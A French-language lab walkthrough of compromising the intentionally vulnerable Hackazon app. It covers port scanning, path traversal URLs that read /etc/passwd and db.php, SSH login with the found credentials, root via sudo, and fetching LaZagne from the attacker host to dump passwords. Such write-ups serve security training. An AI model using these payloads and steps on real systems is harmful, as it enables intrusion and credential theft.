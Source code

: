 # Hackazon

<ins>1.Énumération</ins>

**<span style="color: #dddddd;">👁️</span> Massap**

```
┌─[parrot@parrot]─[~/Documents]
└──╼ $sudo sh massap.sh

   *                                
 (  `                               
 )\))(      )             )         
((_)()\  ( /(  (   (   ( /(  `  )   
(_()((_) )(_)) )\  )\  )(_)) /(/(   
|  \/  |((_)_ ((_)((_)((_)_ ((_)_\  
| |\/| |/ _` |(_-<(_-</ _` || '_ \) 
|_|  |_|\__,_|/__//__/\__,_|| .__/  
                            |_|     

by M0rPH3U53
      
[i] Scan IP: 192.168.56.75
[i] Rate: 1000
 
[+] Scan Masscan 192.168.56.75...100%
[+] Scan Nmap 192.168.56.75...100%
 
==========================================================
|                         Rapports                       |
==========================================================
| Nmap:/home/parrot/Massap/192.168.56.75-tcp.html        |
==========================================================
```

&nbsp;

<span style="color: #dddddd;">⚡</span> **ZAP**

Rapport après fin de scan

![Capture du 2025-02-09 18-32-13](https://github.com/user-attachments/assets/f7a15fbf-7606-4783-9636-25fb2b55b3a2)

&nbsp;

Traverser de chemin

[http://192.168.56.75/account/documents?page=…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F /etc/passwd](http://192.168.56.75/account/documents?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F%20/etc/passwd)

![path_traversal](https://github.com/user-attachments/assets/e91a4263-7b0e-4f02-9d97-60b3d5710e88)


&nbsp;

Allons voir le fichier `db.php`

[http://192.168.56.75/account/documents?page=…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F /var/www/hackazon/assets/config/db.php](http://192.168.56.75/account/documents?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F%20/var/www/hackazon/assets/config/db.php)

![injection_commande](https://github.com/user-attachments/assets/c43652d6-7621-4f0e-91c7-e967294ca101)

&nbsp;

**<span style="color: #dddddd;">🖥️</span> NetExec**

Test en `SSH` des identifiant trouver

```
┌─[parrot@parrot]─[~]
└──╼ $nxc ssh 192.168.56.75 -u hackazon -p hackazon --sudo-check
SSH         192.168.56.75   22     192.168.56.75    [*] SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.10
SSH         192.168.56.75   22     192.168.56.75    [+] hackazon:hackazon (Pwn3d!) Linux - Shell access!
```

&nbsp;

L’utilisateur `hackazon` fais parti du groupe `sudo`

```
hackazon@ubuntu:~$ sudo -s
[sudo] password for hackazon: 
root@ubuntu:~# 
```

&nbsp;

****<span style="color: #dddddd;">👾</span>** LaZagne**

Téléchargement du fichier zip

```
root@ubuntu:~# wget 192.168.56.104:8080/LaZagne-2.4.6.zip
--2025-02-09 09:06:38--  http://192.168.56.104:8080/LaZagne-2.4.6.zip
Connecting to 192.168.56.104:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 705000 (688K) [application/zip]
Saving to: 'LaZagne-2.4.6.zip'

LaZagne-2.4.6.zip                               100%[=====================================================================================================>] 688.48K  --.-KB/s    in 0.008s  

2025-02-09 09:06:38 (79.1 MB/s) - 'LaZagne-2.4.6.zip' saved [705000/705000]
```

&nbsp;

Unzip

```
root@ubuntu:~# unzip LaZagne-2.4.6.zip
Archive:  LaZagne-2.4.6.zip
3ed06c785c417a77c2bc9a09987060425249036d
   creating: LaZagne-2.4.6/
```

&nbsp;

Exécution

```
root@ubuntu:~/LaZagne-2.4.6/Linux# python3 laZagne.py all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Shadow passwords -----------------

[+] Password found !!!
Login: hackazon
Password: hackazon

------------------- Mimipy passwords -----------------

[+] Password found !!!
Process: /usr/sbin/sshd
Login: hackazon
Password: hackazon


[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 0.5735633373260498
```

&nbsp;

Cred trouver

| Users | Password |
| --- | --- |
| hackazon | hackazon |
